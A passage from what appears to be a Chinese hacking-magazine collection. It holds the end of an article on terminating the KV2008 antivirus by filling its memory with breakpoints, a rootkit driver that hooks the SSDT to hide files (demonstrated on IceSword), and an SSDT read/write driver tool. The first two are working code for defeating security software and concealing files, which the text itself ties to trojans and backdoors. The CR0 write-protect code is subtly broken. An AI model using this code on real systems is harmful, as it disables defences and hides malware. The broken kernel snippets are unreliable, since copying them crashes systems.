        Call WriteProcessMemory(hProcess, I, VarPtr(bytBreakPoints(0)), &H1000, Written)
    Next
End Sub
```

试着 `FillProcessMemoryWithBreakPoint(OpenProcess(PROCESS_ALL_ACCESS, False, 1560))`（1560 为我测试的时候 KV2008 监控程序的 PID）一下，KV2008 被结束掉了。

以上代码中的 `OB_TYPE_PROCESS` 是硬编码，在不同版本的系统下不同，大家可以通过如下方式动态地确定 `OB_TYPE_PROCESS`：

打开自己的进程，枚举系统中的句柄，找到句柄所属进程ID等于自己进程的进程ID，并且句柄号等于打开自己的进程时 `OpenProcess` 返回值的那个 `SYSTEM_HANDLE_TABLE_ENTRY_INFO` 数据块，取出其中的 `ObjectTypeIndex`，即是自己系统下的 `OB_TYPE_PROCESS`。

这个在随文附带的源代码中没有写出来，限于篇幅也就不在这儿写了，大家可以自己试着写写看，和复制句柄时的代码类似。

- 2. 结束 KV2008 的进程

通过前面的分析不难发现，如果直接从外部调用 `ZwTerminateProcess` 或是 `ZwTerminateThread` 等函数，是无法将 KV2008 杀掉的，因为这些函数都是需要插入 APC 的。事实上，即便是 `ZwSuspendProcess`、`ZwSuspendThread` 和 `ZwSetContextThread` 等函数也是需要插入 APC 的，而我们在用户态，无法恢复 KV2008 的 Hook，所以我们必须换种思维方式。

仔细观察 KV2008 所 Hook 的函数不难发现，KV2008 并没有对内存操作部分的函数做 Hook（SSDT ...）。

- 3. KV2008 结束，但故事并没有结束

- 1) 开着 IceSword 测试后大家会发现，这段代码杀死了 KV2008 的服务进程后，服务进程在 IceSword 中显示为红色，并且不会退出；查看线程信息会发现其中有一个线程状态是 Waiting。原因是 KV2008 注册了进程/线程创建结束通知，在通知例程中会等待用户态处理（如 `KeWaitForSingleObject`），被结束的是 KV2008 自己的进程时会卡住，约15秒后超时返回并退出。  
- 2) 杀掉 KV2008 的服务进程后，在服务进程完全退出之前，所有进程、线程创建都会被挂起。  
- 3) 本文附带的源程序在 Windows XP SP2、天空软件站 2008-2-3 提供的 KV2008 30天试用版、VB6 环境下测试通过。  
- 4) 纵观这种杀 KV2008 的方法，很重要的一点就是使用了 `ZwQueryInformationProcess` 和 `ZwDuplicateObject` 这两个 Native API 获取句柄。如果 KV2008 能像 RkU 一样照顾到 `ZwDuplicateObject`（事实上，国外大部分有自我保护的程序都会 Hook 这个函数，如 HideToolz、Hacker Defender 等），则该方法就失效了。

如果大家将本文提出的获取进程句柄的方法与 willy[www] 所提出的作业对象关联进程来结束进程的方法综合使用的话，便可结束国内大多数拥有自我保护的软件，如 IceSword、SnipeSword 等。至于实现方法，这里就不再讲述了，大家可以自己动手试试看。同时也希望 KV2008 能早日完善其进程保护，解决这个问题，这也正好对应黑防的宗旨“在攻与防的对立统一中寻求突破”。我们也希望本文能起到抛砖引玉的作用，让大家在以后的编程中能够多思考、多实践。

#### 尾声

本文仅仅是通过分析 KV2008 进程保护所存在的缺陷对其进行攻击的。如果大家将本文提出的获取进程句柄的方法与 willy[www] 所提出的作业对象关联进程来结束进程的方法综合使用的话，便可结束国内大多数拥有自我保护的软件……

本文仅供技术研究，请勿用于非法用途。由于作者的时间、技术水平有限，如有纰漏，希望大家不吝赐教。

【本文涉及的代码（程序），请见随书光盘】

## RootKit文件隐藏技术实现


文/图 夜枫

RootKit 隐藏文件的原理并不复杂。我们知道，Win32 编程中枚举一个目录下的文件通常是 API 函数 FindFirstFile 和 FindNextFile 两个组合起来，枚举到当前目录下的文件，而这两个 API 实际对应的内核 Native API 是 NtQueryDirectoryFile，所以我们只需要在内核 Hook 这个 API 函数，并做相应的处理就可以实现文件的隐藏。当查到我们要隐藏的文件时，就在内核将这个文件剔除掉，所以 FindFirstFile 和 FindNextFile 实际得到的是我们已经剔除过的信息，这样就不会被枚举出来了，也就看不到我们的文件了。当然，这个方法是过不了反 RootKit 工具的，例如 IceSword 用的是直接和磁盘驱动通讯的方法获得数据，所以 RootKit 隐藏对于这类工具是无效的。

思路是做一个磁盘过滤驱动以实现文件隐藏，具体利弊不好说，不过这种方法涉及到过滤驱动的设计，稍微要复杂一些。本文还是主要介绍修改 SSDT 的方法。

从 API 名字上，我们就可以看出 NtQueryDirectoryFile 不是 Win32 API 而是 Native API，所以驱动不可少。NtQueryDirectoryFile 在 DDK 里没有声明，所以我们要手动声明它。按照修改 SSDT 驱动的标准结构，我们的实现代码如下（部分）：

#### 应用

虽然说这种隐藏方法会被工具检测出来，但这也是正常的，因为没有一种技术是完美的，而且实际上 RootKit 隐藏各种信息是很常见的，这些技术通常用在各种木马以及后门上，当然有些病毒也有。我们这里主要是学习技术，希望大家不要用在其他方面。

#### 设计思路

上面所说的是我们要演示的思路，还有一种实现……

```c
#pragma pack(1)   // SSDT Table
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t,
 *PServiceDescriptorTableEntry_t;

#pragma pack()
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]
```

这段代码首先定位到 SSDT 表，然后声明我们的函数。

```c
NTSTATUS NTAPI NewZwQueryDirectoryFile(
IN HANDLE FileHandle,
IN HANDLE Event OPTIONAL,
IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
IN PVOID ApcContext OPTIONAL,
OUT PIO_STATUS_BLOCK IoStatusBlock,
OUT PVOID FileInformation,
IN ULONG Length,
IN FILE_INFORMATION_CLASS FileInformationClass,
IN BOOLEAN ReturnSingleEntry,
IN PUNICODE_STRING FileMask OPTIONAL,
IN BOOLEAN RestartScan);

// API 声明
NTSYSAPI NTSTATUS NTAPI ZwQueryDirectoryFile(
IN HANDLE FileHandle,
IN HANDLE Event OPTIONAL,
IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
IN PVOID ApcContext OPTIONAL,
OUT PIO_STATUS_BLOCK IoStatusBlock,
OUT PVOID FileInformation,
IN ULONG Length,
IN FILE_INFORMATION_CLASS FileInformationClass,
IN BOOLEAN ReturnSingleEntry,
IN PUNICODE_STRING FileMask OPTIONAL,
IN BOOLEAN RestartScan);

typedef NTSTATUS (*ZWQUERYDIRECTORYFILE)(
IN HANDLE FileHandle,
IN HANDLE Event OPTIONAL,
IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
IN PVOID ApcContext OPTIONAL,
OUT PIO_STATUS_BLOCK IoStatusBlock,
OUT PVOID FileInformation,
IN ULONG Length,
IN FILE_INFORMATION_CLASS FileInformationClass,
IN BOOLEAN ReturnSingleEntry,
IN PUNICODE_STRING FileMask OPTIONAL,
IN BOOLEAN RestartScan);

ZWQUERYDIRECTORYFILE OldZwQueryDirectoryFile = NULL;
```

另外有一点一定要注意，就是一定要有卸载函数，否则驱动会卸载不掉，而且卸载函数中一定要恢复 SSDT 表，否则当调用到该函数的时候，这时驱动已经卸载了，所以地址会无效，导致出错，而内核出错就直接蓝屏死机了。

```c
KdPrint(("OldAddress:0x%X\tNewAddress:0x%X\n",
SYSTEMSERVICE(ZwQueryDirectoryFile),
NewZwQueryDirectoryFile));

OldZwQueryDirectoryFile =
(ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile);

(ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile)=NewZwQueryDirectoryFile;
```

恢复 SSDT 的代码如下：

```c
KdPrint(("Driver Unload Called\n"));
(ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile) = OldZwQueryDirectoryFile;
KdPrint(("Address:0x%X\n", SYSTEMSERVICE(ZwQueryDirectoryFile)));
```

这里简单介绍一下 KdPrint，这个函数主要用于输出一个调试信息，因为内核不能像一般程序一样方便地调试，但可以用这种方法简单查看变量值等。另外值得一提的是，KdPrint 只有在 Check 版才会显示，当生成为 Free 版时，KdPrint 就自动无效了，这点比 DbgPrint 要好用。下面我们看一下新函数中的处理。

```c
NTSTATUS NTAPI NewZwQueryDirectoryFile(
IN HANDLE FileHandle,
IN HANDLE Event OPTIONAL,
IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
IN PVOID ApcContext OPTIONAL,
OUT PIO_STATUS_BLOCK IoStatusBlock,
OUT PVOID FileInformation,
IN ULONG Length,
IN FILE_INFORMATION_CLASS FileInformationClass,
IN BOOLEAN ReturnSingleEntry,
IN PUNICODE_STRING FileMask OPTIONAL,
IN BOOLEAN RestartScan)
{
    NTSTATUS ntStatus = OldZwQueryDirectoryFile(
        FileHandle,Event,ApcRoutine,ApcContext,IoStatusBlock,
        FileInformation,Length,FileInformationClass,ReturnSingleEntry,
        FileMask,RestartScan);

    if(NT_SUCCESS(ntStatus) &&
       (FileInformationClass == FileDirectoryInformation ||
        FileInformationClass == FileFullDirectoryInformation ||
        FileInformationClass == FileIdFullDirectoryInformation ||
        FileInformationClass == FileBothDirectoryInformation ||
        FileInformationClass == FileIdBothDirectoryInformation ||
        FileInformationClass == FileNamesInformation))
    {
        PVOID p = FileInformation;
        PVOID pLast = NULL;
        DWORD pLastOne = 0;
        ...
    }
}
```

注意，这 3 个可是不一样的，第 1 个是我们取而代之的新函数，第 2 个才是 API 声明，第 3 个只是一个函数声明。我们要用第 3 个定义一个旧的地址用于保存我们替换掉的地址，以便恢复和传递。除此之外，我还因为存在多种类型而定义了几个函数，分别获得偏移量、长度、文件名和设置新偏移量。

```c
DWORD GetNextEntryOffset(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
void SetNextEntryOffset(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo, IN DWORD Offset);
PVOID GetEntryFileName(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
ULONG GetFileNameLength(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
```

驱动函数入口点 DriverEntry 里毫无疑问先要修改 SSDT，用我们的 NewXXXXX 函数替换 SSDT 表中的函数地址，这样当别人调用该函数时才会进入我们的驱动。

```c
KdPrint(("<----------->\n"));
do{
    pLastOne = GetNextEntryOffset(p, FileInformationClass);
    KdPrint(("[*]Last:0x%x\tCurrent:0x%x\tpLastOne:%d\n", pLast, p, pLastOne));
    if (RtlCompareMemory(GetEntryFileName(p, FileInformationClass), L"IceSword", 16) == 16) {
        KdPrint(("[-]Hide....\n"));
        if (pLastOne == 0) {
            if (p == FileInformation)
                ntStatus = STATUS_NO_MORE_FILES;
            else
                SetNextEntryOffset(pLast, FileInformationClass, 0);
            break;
        } else {
            int iPos = ((ULONG)p - (ULONG)FileInformation);
            int iLeft = (DWORD)Length - iPos - pLastOne;
            RtlCopyMemory(p, (PVOID)((char*)p + pLastOne), (DWORD)iLeft);
            KdPrint(("iPos:%d\tLength:%d\tiLeft:%d\t,NextOffset:%d\tpLastOne:%d\tCurrent:0x%x\n",
                    iPos, Length, iLeft, GetNextEntryOffset(p, FileInformationClass), pLastOne, p));
            continue;
        }
    }
    pLast = p;
    p = ((char*)p + GetNextEntryOffset(p, FileInformationClass));
} while (pLastOne != 0);
KdPrint(("<----------->\n"));
return ntStatus;
```

以上代码首先调用一次旧函数，不然会出错。当旧函数返回成功并且 `FileInformationClass` 为以上 6 种类型时，才会进入过滤部分。这个函数微软并未公开，可到 http://undocumented.ntinternals.net 查到相关信息。

根据 `FileInformationClass` 的不同，`FileInformation` 的值也会不一样，所以我另外写了几个函数，具体请见本文代码。这里简单介绍一下 `FileInformation` 的结构，不管它是什么类型，都会是一个类似链表的结构，但又不是链表，会有一个 `NextEntryOffset` 属性。这个属性记录下一个信息的偏移量，简单地说就是从起始位置开始的偏移位置。举个例子，目前有 6 个人站成一排，第 1 个人记录的下一个人的偏移量就是 2，这样从开始位置加 2 就是第 2 个人了。这里也是这种原理，所以我们用一个 `pLast` 变量保存上一个信息的地址，一个 `pLastOne` 保存当前这条的下一条的偏移量，当然最后一条的偏移量肯定是 0，因为它没有下一个了，所以我们从第一条开始一个一个遍历条目，直到 `pLastOne` 为 0，也就是最后一条结束时再退出循环，而这里用了一个 do-while 循环就是起到这个作用的。

不过还有个问题，就是假设我们这个条目是最后一条，这时我们就应该让前一条的 `NextEntryOffset` 为 0，表示前一条就是最后一条，这样当前这条就无效了，也就达到了隐藏的目的，所以我做了一个判断，代码如下。

```c
if (pLastOne == 0) {
    if (p == FileInformation)
        ntStatus = STATUS_NO_MORE_FILES;
    else
        SetNextEntryOffset(pLast, FileInformationClass, 0);
    break;
}
```

如果不是最后一条就有点难办了，我开始想的是将上一条的 `NextEntryOffset` 设置为当前这条的 Offset，这样就能绕过，后来试了试不知道为什么会蓝屏。因此我采用了另外一个方法，就是将后面的内存复制过来从当前位置开始覆盖，这样结构体是连续的，就不会出错了，而且最后一条的 `NextEntryOffset` 是 0，所以不必担心后面的内存无效的问题。

#### 实际测试

至此，文件的隐藏我们就实现了，下面就试试看吧。我们以隐藏文件 IceSword.exe 为例，如图 1 所示，运行驱动后的结果如图 2 所示。这里我做的判断是 IceSword 长度为 8，使用 Unicode 编码长度为 16，所以不论任何扩展名，只要前面是 IceSword 的都会被隐藏。


这个方法虽然能实现文件隐藏，不过不是很稳定，容易出错，可能是我代码编写的问题，大家可以在此基础上多多思考，完美地解决这个问题。

> 【本文涉及的代码（程序），请见随书光盘】

## 编程打造自己的 SSDT 恢复工具

文 / 图 Adly

大家都知道 SSDT 是什么吧？简而言之，它就是从 Ring3 到 Ring0 的一道门，将 Ring3 级的 Win32 API 对应到相应的 Ring0 级的 API 函数。

现在很多杀毒软件都 HOOK 了内核级 API，以阻止一些恶意程序的运行。如果我们需要调试一些黑客程序，却被杀毒软件阻止，就又得将杀毒软件退出，比较麻烦，而且还不易看出哪些内核级 API 被 HOOK 了，使我们编写程序时，不能很清楚地知道哪些函数能绕过杀毒软件的 HOOK。

下面我们就抱着学习的态度来编写一个工具，实现利用表格形式查看 SSDT 表，显示出它的服务号、当前地址、原始地址、服务函数名以及模块的名字，将被 HOOK 了的内核级 API 用红色突出显示出来，并可以实现恢复 SSDT 表内原始地址的功能，去掉多余的非系统默认项，还给我们一个干净的系统，实现的最终效果如图 1 所示。


图 1

## SSDT 恢复工具的实现模块

本程序使用了三大模块来实现此功能，各个模块中所用到的公共文件为 IOCTL.h，此文件中包含了一些各个模块所要用到的结构体和 IO 控制命令的定义。

```c
#define FILE_DRIVER_SSDT 0x0000420
#define SystemModuleInfo 0x0B
#define DRIVER_NAME L"\\Device\\SSDT"
#define DEVICE_NAME L"\\DosDevices\\SSDT"
```

```c
#ifndef CTL_CODE
#define CTL_CODE(DeviceType, Function, Method, Access) (((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method))
#endif
#ifndef METHOD_NEITHER
#define METHOD_NEITHER 3
#endif

// SSDT 结构体
typedef struct _tagSSDT {
    PVOID pvSSDTBase;
    PVOID pvServiceCounterTable;
    ULONG ulNumberOfServices;
    PVOID pvParamTableBase;
} SSDT, *PSSDT;

// ModuleInfo 结构体
typedef struct ModuleInfo_t {
    ULONG Unused;
    ULONG Always0;
    ULONG ModuleBaseAddress;
    ULONG ModuleSize;
    ULONG Unknown;
    ULONG ModuleEntryIndex;
    USHORT ModuleNameLength;
    USHORT ModulePathLength;
    char ModuleName[256];
} DRIVERMODULEINFO, *PDRIVERMODULEINFO;

// 获取 SSDT 结构
#define IOCTL_GETSSDT (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x01, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)
// 设置 SSDT 结构
#define IOCTL_SETSSDT (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x02, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)
// 查询 SSDT HOOK 函数地址
#define IOCTL_GETHOOK (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x03, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)
// 设置 SSDT HOOK 函数地址
#define IOCTL_SETHOOK (ULONG)CTL_CODE(FILE_DRIVER_SSDT, 0x04, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)
```

##### 驱动模块

第一大模块是一个 SYS 驱动程序，它的主要作用是获取/设置服务描述表的地址、获取/设置 SSDT 各个表项的处理函数地址。SYS 驱动程序的功能其实是很简单的，所以，我们写的驱动程序也很简单。

```c
#include <ntddk.h>
#include <ntstatus.h>
#include "..\\IOCTL.h"
extern PSSDT KeServiceDescriptorTable;
```

首先在驱动文件头中包括了 3 个头文件。最后一个 `KeServiceDescriptorTable` 是由内核导出的，这个非常重要，它让我们能够得到服务描述表的首地址。

```c
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject,
                     PUNICODE_STRING pRegistryPath)
{
    PDEVICE_OBJECT pdo = NULL;
    NTSTATUS s = STATUS_SUCCESS;
    UNICODE_STRING usDriverName, usDosDeviceName;

    RtlInitUnicodeString(&usDriverName, DRIVER_NAME);
    RtlInitUnicodeString(&usDosDeviceName, DEVICE_NAME);

    s = IoCreateDevice(pDriverObject, 0, &usDriverName,
                       FILE_DRIVER_SSDT, FILE_DEVICE_SECURE_OPEN,
                       FALSE, &pdo);
    if (STATUS_SUCCESS == s)
    {
        pDriverObject->MajorFunction[IRP_MJ_CREATE] = SSDTCreate;
        pDriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = SSDTDeviceIoCtl;
        pDriverObject->DriverUnload = SSDTUnload;
        IoCreateSymbolicLink(&usDosDeviceName, &usDriverName);
    }

    DbgPrint("SSDT: Load Success!");
    return s;
}
```

在 `DriverEntry` 这个驱动入口函数中，我们除了创建设备和符号链接名外，最重要的是，我们还注册了 3 个回调例程：创建（`SSDTCreate`）、卸载（`SSDTUnload`）和我们这里最重要的 IO 分发例程（`SSDTDeviceIoCtl`）。其中创建和卸载这里就不讲解了（需要的朋友请看完整驱动源码），只详细说说 IO 分发例程。

```c
NTSTATUS SSDTDeviceIoCtl(PDEVICE_OBJECT pDeviceObject, PIRP Irp)
{
    NTSTATUS s;
    PIO_STACK_LOCATION IrpStack;
    PVOID InputBuffer;
    PVOID OutputBuffer;
    ULONG InputBufferLength;
    ULONG OutputBufferLength;
    ULONG IoControlCode;

    s = Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    InputBuffer = IrpStack->Parameters.DeviceIoControl.Type3InputBuffer;
    InputBufferLength = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
    OutputBuffer = Irp->UserBuffer;
    OutputBufferLength = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
    IoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
```

首先是取得 IO 控制码、输入缓冲、输出缓冲、输入长度以及输出长度，以便下面能够顺利引用。

```c
    // 这里处理分发例程
    switch (IoControlCode)
    {
        case IOCTL_GETSSDT: // 得到SSDT
            __try
            {
                ProbeForWrite(OutputBuffer, sizeof(SSDT), sizeof(ULONG));
                RtlCopyMemory(OutputBuffer, KeServiceDescriptorTable, sizeof(SSDT));
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
                s = GetExceptionCode();
                break;
            }
            DbgPrint("SSDT: GetSSDT Completed!");
            break;

        case IOCTL_SETSSDT: // 设置SSDT
            __try
            {
                ProbeForRead(InputBuffer, sizeof(SSDT), sizeof(ULONG));
                // 去掉内存保护
                __asm
                {
                    cli;
                    mov eax, cr0
                    and eax, 0x10000
                    mov cr0, eax
                }

                RtlCopyMemory(KeServiceDescriptorTable, InputBuffer, sizeof(SSDT));

                // 开中断，把内存保护加上
                __asm
                {
                    mov eax, cr0
                    or eax, 0x10000
                    mov cr0, eax
                    sti;
                }
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
                s = GetExceptionCode();
                break;
            }
            DbgPrint("SSDT: SetSSDT Completed!");
            break;

        case IOCTL_GETHOOK: // 查询SSDT指定地址
            __try
            {
                ProbeForRead(InputBuffer, sizeof(ULONG), sizeof(ULONG));
                ProbeForWrite(OutputBuffer, sizeof(ULONG), sizeof(ULONG));
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
                s = GetExceptionCode();
                break;
            }

            if (KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer)
            {
                s = STATUS_INVALID_PARAMETER;
                break;
            }

            *(PULONG)OutputBuffer = *((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer);
            DbgPrint("SSDT: GetHookedAddress Completed!");
            break;

        case IOCTL_SETHOOK: // 设置SSDT指定地址
            __try
            {
                ProbeForRead(InputBuffer, sizeof(ULONG), sizeof(ULONG));
                ProbeForRead(OutputBuffer, sizeof(ULONG), sizeof(ULONG));
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
                s = GetExceptionCode();
                break;
            }

            if (KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer)
            {
                s = STATUS_INVALID_PARAMETER;
                break;
            }

            __asm
            {
                cli; // 关中断
                mov eax, cr0
                and eax, 0x10000
                mov cr0, eax
            }

            *((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer) = *((PULONG)OutputBuffer);

            // 开中断，把内存保护加上
            __asm
            {
                mov eax, cr0
                or eax, 0x10000
                mov cr0, eax
                sti; // 开中断
            }
            DbgPrint("SSDT: SetHookedAddress Completed!");
            break;

        default:
            s = STATUS_INVALID_DEVICE_REQUEST;
            DbgPrint("SSDT: Invalid Parameter Completed!");
            break;
    }
```

这段代码便是驱动程序的核心代码，它就实现了上面所说的驱动程序的功能。

`IOCTL_GETSSDT` 这段用于获得服务描述表地址。首先对 `OutputBuffer` 进行写测试，如果能写，则将 `KeServiceDescriptorTable`（即服务描述表）的地址写到 `OutputBuffer` 中，然后返回给用户的调用者程序。其中的 `KeServiceDescriptorTable` 变量是由上面的 `extern PSSDT KeServiceDescriptorTable;` 代码从内核中导出的。

接下来是 `IOCTL_SETSSDT`，即设置服务描述表地址。首先对 `InputBuffer` 进行了读测试，如果没有异常，则进行下面的代码处理。

```c
// 去掉内存保护
__asm
{
    cli; // 关中断
    mov eax, cr0
    and eax, 0x10000
    mov cr0, eax
}
```

先用这段代码，将中断关掉后去掉内存保护标志，以免发生内存写异常。

```c
RtlCopyMemory(KeServiceDescriptorTable, InputBuffer, sizeof(SSDT));
```

再将用户输入的服务描述表地址拷贝到内核中的服务描述表中。

```c
// 开中断，把内存保护加上
__asm
{
    mov eax, cr0
    or eax, 0x10000
    mov cr0, eax
    sti; // 开中断
}
```

最后再开启内存保护功能，将中断打开，允许中断。

`IOCTL_GETHOOK` 查询用户指定的 SSDT 对应的处理函数地址，它对用户的 `InputBuffer` 输入进行读测试，对 `OutputBuffer` 进行写测试，如果都没有异常发生，则继续下面的代码功能。

```c
if (KeServiceDescriptorTable->ulNumberOfServices <= *(PULONG)InputBuffer)
{
    s = STATUS_INVALID_PARAMETER;
    break;
}
```

对用户输入的参数进行测试，如果输入的服务号太大，则返回 `STATUS_INVALID_PARAMETER` 出错代码。如果用户输入的服务号为一个正确的值，则将对应服务号的函数地址复制到用户的输出缓冲中，返回给用户。

```c
*(PULONG)OutputBuffer = *((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer);
```

驱动的最后一个功能为 `IOCTL_SETHOOK`，即设置 SSDT 中服务号对应的内核函数处理地址。它首先对 `InputBuffer` 和 `OutputBuffer` 都进行了读测试（在这里，我把 `OutputBuffer` 也当作一个输入缓冲来使用，让它存放用户待设置的函数处理地址），在没有异常的情况下，仍然对用户所输入的服务号进行判断，如果不正确，则返回 `STATUS_INVALID_PARAMETER` 代码；如果正确，则首先关中断，去掉内存写保护（同上），然后将用户所输入的函数处理地址设置到服务描述表的相应表格中。

```c
*((PULONG)(KeServiceDescriptorTable->pvSSDTBase) + *(PULONG)InputBuffer) = *(PULONG)OutputBuffer;
```

再将内存写保护加上，开启中断（同上）。最后就是完成 IO 请求，返回执行的结果状态了。

```c
IoCompleteRequest(Irp, IO_NO_INCREMENT);
return s;
```

至此，整个驱动模块就编写完毕。在其他驱动程序中（或 DDK 的源码示例中）复制一个 MAKEFILE 文件和 SOURCES 文件，放到刚才写的驱动程序文件同一目录中，把刚才写的驱动程序文件改名为 `SSDT.c`，修改 SOURCES 内容为：

```makefile
TARGETNAME=SSDT
TARGETPATH=.\sys
TARGETTYPE=DRIVER
SOURCES=SSDT.c
```

直接利用 DDK 的命令行 `build`，一个驱动文件 `SSDT.sys` 即会出现在 `sys\i386` 目录中了。

##### 基本功能实现模块

此模块的代码量太大，我只简单地进行讲解。此模块包含两个文件：`SSDT.h` 和 `SSDT.cpp`。`SSDT.h` 中包含了几个重要的结构体和一些函数声明，一个很重要的函数声明为 `NtQuerySystemInformation`，在这里，主要用它来获取几个模块的一些重要信息，该信息的结构体为：

```c
typedef struct _SYSTEM_MODULE_INFORMATION {
    ULONG Reserved[2];
    PVOID Base;
    ULONG Size;
    ULONG Flags;
    USHORT Index;
    USHORT Unknown;
    USHORT LoadCount;
    USHORT ModuleNameOffset;
    CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;
```

下面我自定义了一个结构体，用来保存 SSDT 的各个信息。

```c
typedef struct _SSDTSaveTable // 保存SSDT信息
{
    ULONG ulServiceNumber;              // 服务号
    ULONG ulCurrentFunctionAddress;     // 当前函数地址
    ULONG ulOriginalFunctionAddress;    // 原始函数地址
    char ServiceFunctionName[MAX_PATH+1]; // 服务函数名
    char ModuleName[MAX_PATH+1];        // 模块名
} SSDTSaveTable, *pSSDTSaveTable;
```

在 `SSDT.cpp` 实现文件中，我还定义了一些基本的操作，包括 `LoadDriver`，用于加载驱动程序；`UnloadDriver`，用于卸载驱动程序；`GetSSDT`，得到服务描述表地址；`SetSSDT`，设置服务描述表地址；`GetHook`，获取指定服务号所对应的处理函数地址；`SetHook`，设置指定服务号所对应的处理函数地址。这几个函数主要利用 `DeviceIoControl` 函数向驱动发送控制代码实现。

`EnumSSDT` 是一个非常重要的函数，它的主要功能为枚举出所有的 SSDT 表项，实现代码如下。

```c
// 枚举SSDT
BOOL EnumSSDT(IN HANDLE hDriver)
{
    ......代码省略......
    do
    {
        ......代码省略......
        // 枚举
        ulNtDllOffset = (ULONG)hNtDllInst;
        // PE头部
        ulNtDllOffset += ((PIMAGE_DOS_HEADER)hNtDllInst)->e_lfanew + sizeof(DWORD);

        // 数据目录
        ulNtDllOffset += sizeof(IMAGE_FILE_HEADER) +
                         sizeof(IMAGE_OPTIONAL_HEADER)
                         - IMAGE_NUMBEROF_DIRECTORY_ENTRIES * sizeof(IMAGE_DATA_DIRECTORY);

        // 导出表
        ulNtDllOffset = (DWORD)hNtDllInst + ((PIMAGE_DATA_DIRECTORY)ulNtDllOffset)->VirtualAddress;

        // 导出目录表
        pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)ulNtDllOffset;

        // 得到函数个数
        ulFuncNameCount = pImgExpDir->NumberOfNames;

        // 函数名数组指针
        pFuncNameArray = (PULONG)((ULONG)hNtDllInst + pImgExpDir->AddressOfNames);

        // 循环找函数名
        for (i = 0; i < ulFuncNameCount; i++) {
            PCSTR pszName = (PCSTR)((pFuncNameArray[i]) + (ULONG)hNtDllInst);
            if (pszName[0] == 'N' && pszName[1] == 't') {
                LPWORD pOrdNameArray = (LPWORD)((ULONG)hNtDllInst + pImgExpDir->AddressOfNameOrdinals);
                LPDWORD pFuncArray = (LPDWORD)((ULONG)hNtDllInst + pImgExpDir->AddressOfFunctions);
                LPCVOID pFuncCode = (LPCVOID)((ULONG)hNtDllInst + pFuncArray[pOrdNameArray[i]]);

                SSDTEntry EntryCode;
                memcpy(&EntryCode, pFuncCode, sizeof(SSDTEntry));
                if (EntryCode.byMov == 0xB8) {
                    ULONG ulAddr = 0;
                    if (!GetHook(hDriver, EntryCode.ulIndex, &ulAddr)) {
                        bOK = FALSE;
                        break;
                    }

                    char ModNameBuf[MAX_PATH+1];
                    memset(ModNameBuf, 0, sizeof(ModNameBuf));
                    if (GetModuleNameByAddr(ulAddr, pList, ModNameBuf, sizeof(ModNameBuf)-1)) {
                        memcpy(((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ModuleName,
                               ModNameBuf,
                               sizeof(ModNameBuf));
                    }

                    ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ulServiceNumber = EntryCode.ulIndex;
                    ...
                }
            }
        }

        ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress = ulAddr;
        memcpy(
            ((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ServiceFunctionName,
            pszName,
            sizeof(((pSSDTSaveTable)((ULONG)pSSDTST + RealCount * sizeof(SSDTSaveTable)))->ServiceFunctionName)
        );
        RealCount++;
        ...
    } while (FALSE);

    FreeLibrary(hNtDllInst);
    if (bOK) {
        // 获取剩下的服务号
        for (i = RealCount; i < TotalSSDTCount; i++) {
            if (!GetHook(hDriver, i, &((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress)) {
                bOK = FALSE;
                break;
            }

            char ModNameBuf[MAX_PATH+1];
            memset(ModNameBuf, 0, sizeof(ModNameBuf));
            if (GetModuleNameByAddr(
                ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress,
